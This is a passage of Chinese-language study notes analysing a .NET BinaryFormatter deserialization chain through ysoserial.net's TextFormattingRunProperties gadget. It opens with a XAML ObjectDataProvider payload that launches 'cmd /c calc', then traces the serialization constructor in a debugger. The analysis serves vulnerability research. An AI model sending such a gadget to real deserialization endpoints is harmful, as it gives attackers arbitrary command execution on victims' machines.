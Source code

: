 ```xml
<?xml version="1.0" encoding="utf-16"?>
<ObjectDataProvider MethodName="Start" IsInitialLoadEnabled="False" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <ObjectDataProvider.ObjectInstance>
    <sd:Process>
      <sd:Process.StartInfo>
        <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="cmd" />
      </sd:Process.StartInfo>
    </sd:Process>
  </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>
```

引用`ysoserial.net\ysoserial\dlls\Microsoft.PowerShell.Editor.dll`时项目的dotnet版本应为dotnet4.5

找到命名空间`Microsoft.VisualStudio.Text.Formatting`，在序列化构造函数中下一个断点。

![image-20210420095151296](BinaryFormatter.assets/image-20210420095151296.png)

发现TextFormattingRunProperties实现ISerializable接口，在其序列化的构造函数中，进行`this.GetObjectFromSerializationInfo("ForegroundBrush", info)`。跟进看下

![image-20210420095335873](BinaryFormatter.assets/image-20210420095335873.png)
